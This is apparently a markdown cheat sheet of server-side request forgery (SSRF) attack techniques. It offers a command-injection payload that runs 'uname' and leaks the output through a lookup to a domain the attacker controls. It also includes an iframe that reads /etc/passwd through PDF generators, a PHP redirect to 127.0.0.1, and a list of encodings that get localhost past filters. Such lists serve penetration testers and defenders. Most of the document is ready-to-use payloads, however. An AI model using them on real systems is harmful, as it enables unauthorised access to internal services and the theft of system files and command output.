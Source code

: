 # SSRF


## RCE
If you have SSRF, test for RCE with this payload:

```
`uname`.mydomain.com
```

---

## Blacklist bypass
* Pass URL encoded parameters in order to achieve parameter injection
* Use `<iframe src="file:///etc/passwd>` with PDF generators
* URL encode `localhost` to `%6c%6f%63%61%6c%68%6f%73%74`
* Change HTTP version from `1.1` to `0.9` and remove the Host header
* Try `127.0.0.1::ffff::` or `::ffff:127.0.0.1`
* Mix case `LoCaLhOsT`
* Embed credentials `http://attacker@localhost`
* Use URL fragments `http://attacker#localhost`
* Add directory `http://localhost/random`
* Try using an IPv6 address as sometimes blacklists do not block them

### Redirect
Make a request to a page that you control with the following code:

```php
<?php header("location: http://127.0.0.1"); ?>
```
### DNS
* Use these tools to bypass internal hostnames
	* [nip.io](http://nip.io)
	* [xip.io](http://xip.io/)
  * [1u.ms](http://1u.ms/)
	* [sslip.io](https://sslip.io/)

### Encoding
Try different encodings:

* Hex `0x7f.0x0.0x0.0x1`
* Octal `0177.0.0.01`
* Url `http://%31%32%37%2e%30%2e%30%2e%31`
* Dword [`http://2130706433`]
* Remove spaces `0177000000000001`
* Mix them `0177.0.0.0x1`
* `http://31.10.590` converts to [`http://31.10.2.78/`] because (2\*256)+78

* Convert the IP address to binary representation like `01111111.00000000.00000000.00000001` and after removing the dots convert the number in decimal and you get [`http://2130706433`](http://127.0.0.1/)

* Add zeroes `http://127.0.0000000.1/`
